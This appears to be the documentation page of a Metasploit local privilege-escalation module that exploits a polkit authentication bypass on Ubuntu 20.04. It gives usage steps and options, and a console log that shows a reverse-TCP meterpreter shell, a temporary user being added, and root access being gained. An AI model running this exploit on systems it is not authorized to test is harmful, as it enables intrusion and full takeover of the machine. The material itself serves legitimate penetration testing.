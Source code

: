 ## Description

This module exploits a authentication bypass in Linux machines that make use of the polkit is a system service.
The vulnerability enables an unprivileged local user to get a root shell on the system.

## Vulnerable Application
This module has been tested successfully on:
    
* Ubuntu 20.04

### Installation And Setup

Download and install Ubuntu 20.04 from the Ubuntu Downloads page: https://ubuntu.com/download/desktop

## Verification Steps
1. Start msfconsole.
2. Get a session.
3. Do: `use exploit/linux/local/polkit_dbus_auth_bypass`.
4. Set the `SESSION` to the session obtained in step 2.
5. Set the `LHOST`, `LPORT` and `PAYLOAD` options as appropriate.
6. Do: `run`.
7. It is possible for the exploit to fail, increase the ITERATIONS module option to attempt the exploit more times before failing and run again.
8. Enjoy the shell.

## Options

**SESSION**
The session to run this module on.

**WRITABLE_DIR**
Directory to write file to (`%TEMP%` by default).

**USERNAME**
The name of the user the exploit will add to the system

**PASSWORD**
The password for the user to be created

## Scenarios

### Tested on Ubuntu 20.04
```
msf6 > use multi/handler
[*] Using configured payload linux/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:4444 
[*] Meterpreter session 1 opened (192.168.123.1:4444 -> 192.168.123.146:49882) at 2021-06-25 17:54:45 -0400

meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use polkit_dbus
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/linux/local/polkit_dbus_auth_bypass  2021-06-03       excellent  Yes    Polkit Authentication Bypass


Interact with a module by name or index. For example info 0, use 0 or use exploit/linux/local/polkit_dbus_auth_bypass

[*] Using exploit/linux/local/polkit_dbus_auth_bypass
msf6 exploit(linux/local/polkit_dbus_auth_bypass) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(linux/local/polkit_dbus_auth_bypass) > set lport 4443
lport => 4443
msf6 exploit(linux/local/polkit_dbus_auth_bypass) > set session 1
session => 1
msf6 exploit(linux/local/polkit_dbus_auth_bypass) > run

[*] Started reverse TCP handler on 192.168.123.1:4443 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. The polkit framework instance is vulnerable.
[*] Attempting to create user msf
[+] User msf created with UID 1019
[*] Attempting to set the password of the newly create user, msf, to: NpJsQSti
[+] Obtained code execution has root!
[*] Writing '/tmp/vOWnn' (207 bytes) ...
[*] Sending stage (984904 bytes) to 192.168.123.146
[+] Deleted /tmp/vOWnn
[*] Meterpreter session 2 opened (192.168.123.1:4443 -> 192.168.123.146:42066) at 2021-06-25 17:55:27 -0400
[*] Attempting to remove the user added: 
[+] Successfully removed msf

meterpreter > getuid
Server username: root @ ubuntu (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 192.168.123.146
OS           : Ubuntu 20.04 (Linux 5.8.0-55-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```

